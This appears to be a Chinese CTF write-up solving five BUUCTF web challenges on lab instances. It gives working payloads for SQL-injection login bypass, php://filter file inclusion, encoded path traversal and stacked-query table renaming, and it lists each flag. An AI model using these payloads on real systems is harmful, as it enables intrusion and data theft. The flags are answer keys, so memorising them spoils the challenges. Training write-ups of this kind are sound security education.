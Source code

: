 # 1.buuctf.[极客大挑战 2019]EasySQL
点击题目中的url链接 http://5bd02f5a-954f-4348-b38c-9343c5ad32b8.node5.buuoj.cn:81/

![](./c1c11b7acf6bf7c7479865f0a32a00d.png)

考察万能密码，用户名admin‘ or 1=1#
               密码  123456

点击登录获得flag{c1e477a2-0c3c-4977-b48e-9b03183f54f2}

# 2.buuctf.[极客大挑战 2019]Havefun
点击题目中的url链接 http://abfb11b9-4f88-4220-996f-0e7b722e70cc.node5.buuoj.cn:81/

![](./微信图片_20240521095316.png)

查看网页源代码，往下拉

![](./微信图片_20240521095852.png)

发现注释，如果get传出来一个cat=dog,echo输出flag

具体操作如下：

![](./微信图片_20240521101009.png)

刷新页面获得flag

![](./微信图片_20240521100918.png)

提交flag{a159724a-155a-4958-a88f-34a5dc1386e9}

# 3.buuctf.[ACTF2020 新生赛]Include
点击题目中的url链接 http://c8a499b1-ef8a-4a36-a903-2f223c5f55d0.node5.buuoj.cn:81/

![](./微信图片_20240521101856.png)

点击tips进入新页面

![](./微信图片_20240521101905.png)

ctrl+shift+i查看网页源代码,点击hackbak

php://filter/read=convert base64-encode/resource=要读取的文件

读取首页index.php文件
http://c8a499b1-ef8a-4a36-a903-2f223c5f55d0.node5.buuoj.cn:81/?file=php://filter/read=convert base64-encode/resource=index.php

![](./bcc9d81faa642d9d7aa3220636490a8.png)

发现一段编码，点击 http://www.hiencode.com/，base64解码

![](./69f0fab67fb600f642c30103ef4d5e6.png)

![](./8b4cdc990a754c398038a15fac50b08.png)

查看flag.php源码

![](./f3b0f691c2fdc4b920b5d36bdff9741.png) 

获得新的编码，用bease64解码

![](./826e94bf1a08f80fe8570352f360eba.png)

![](./3f98fbb5a49bdbe5aa5d385266310ae.png)

![](./43f4e7c006dc0fafb9fdf3284678c13.png)

提交flag{fb74c362-0e6d-40a7-9833-e573d171407f}

# 4.buuctf.[HCTF 2018]WarmUp
点击题目中的url链接 http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/

![](./b6315b1923d2075736d58421a33868b.png)

发现一个笑脸，查看源代码

![](./94cdfb0119e6c87c6de4424e1c0d893.png)

发现注释，访问 http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/source.php

![](./b1bd75f8c66aa74fe2fedc55b4148d3.png)

![](./7c490829d3601c8cdc61de5e333cdfa.png)

![](./9ab973fe7aa276d89634a2b50f5c16d.png)

进行代码审查，访问hint.php，http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/hint.php

![](./4724d814b419a5b2d7d68684e25c125.png)

再次审查代码，使用url编码？进行绕过
得到新的url进行访问

http://f11e7eb5-c2dc-4cfa-a7cc-2597f384423a.node5.buuoj.cn:81/？file=source.php%253F../../../../../ffffllllaaaagggg

![](./0ce8e251c1660d6502804a2f4345e3d.png)

提交flag{c4952d80-cebe-44e1-8c0b-ab02e3634012} 

# 5.buuctf.[强网杯 2019]随便注
点击题目中的url链接 http://eca7f7b3-efce-4f85-b8b1-c71ce28e295d.node5.buuoj.cn:81/

![](./eb916a067d88c944f2c91409fae8a7c.png)

![](./277c0b2d4ecb4e695ba84e0f0b45cc6.png)

输入：1' order by 2#
1' order by 3#

![](./599ce60c7473833f2ee5b014f0dbf89.png)

发现只有两列
构造查询语句
1' union select 1, 2#

![](./251bdae4152c274a6dd2d380e063dda.png)

发现被禁止了
1' and (extractvalue(1,concat(0x7e,database(),0x7e)));#

![](./8e6256a0195dea23566fe9d12519918.png)

发现当前数据库为supersqli
1';show databases;

![](./af7a38e2dfe0b8696cbb339b66bb387.png)

1';show tables;
查看表

![](./a75cd1400e8ecd3e203bc1cc7cae538.png)
1';show columns from `1919810931114514`;

![](./376b562c6d9432f00c4bbf3e89dfa1c.png)

因为可以堆叠查询，这时候就想到了一个改名的方法，把words随便改成words1，然后把1919810931114514改成words，再把列名flag改成id，结合上面的1' or 1=1#爆出表所有内容就可以查flag
payload：0';rename table words to words1;rename table `1919810931114514` to words;alter table words change flag id varchar(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;desc words;#

![](./df9ab506d5e89a56348e479085df55e.png)

![](./656173dc93a597827f324294482cefb.png)

提交flag{6fc51092-a025-40b5-9f49-6d31f4d7ce0d}